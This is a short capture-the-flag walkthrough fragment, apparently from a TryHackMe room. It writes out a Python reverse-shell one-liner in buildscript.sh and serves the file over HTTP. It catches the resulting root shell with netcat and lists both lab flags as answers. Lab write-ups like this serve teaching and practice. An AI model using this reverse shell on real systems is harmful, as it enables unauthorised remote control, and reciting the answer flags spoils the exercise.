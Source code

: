 ```bash
root@ip-10-10-76-219:~# mkdir downloads
root@ip-10-10-76-219:~# cd downloads/
root@ip-10-10-76-219:~/downloads# mkdir src
root@ip-10-10-76-219:~/downloads# cd src
root@ip-10-10-76-219:~/downloads/src# touch buildscript.sh
root@ip-10-10-76-219:~/downloads/src# cat buildscript.sh 
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.76.219",7007));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

root@ip-10-10-76-219:~/# sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.222.176 - - [19/Aug/2020 17:06:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -

root@ip-10-10-76-219:~/downloads/src# nc -lvnp 7007
listening on [any] 7007 ...
connect to [10.10.222.176] from (UNKNOWN) [10.10.76.219] 57212
/bin/sh: 0: can't access tty; job control turned off
# cd /root
# ls
buildStatus
builds
go
root.txt
src
# cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

----

# ANSWER THE FOLLOWING :
----

1.Hack the machine and get the flag in user.txt
>>thm{65c1aaf000506e56996822c6281e6bf7}

2.Escalate your privileges and get the flag in root.txt
>>thm{7f336f8c359dbac18d54fdd64ea753bb}

----